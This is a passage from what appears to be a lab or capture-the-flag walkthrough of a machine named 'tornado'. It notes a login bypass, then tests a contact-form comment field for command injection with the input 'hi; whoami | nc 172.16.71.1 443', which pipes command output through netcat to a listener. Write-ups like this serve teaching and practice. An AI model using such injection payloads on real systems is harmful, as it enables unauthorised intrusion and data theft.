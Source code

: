 The access was successful, bypassing the login structure.

![](/assets/images/tornado/screenshot-19.png)

In **CONTACT** menu there is a feature to post comments.

![](/assets/images/tornado/screenshot-20.png)

### Command execution

To check for command execution vulnerability. Set a netcat listener and in the input form type the following:

`hi; whoami | nc 172.16.71.1 443`

![](/assets/images/tornado/screenshot-21.png)
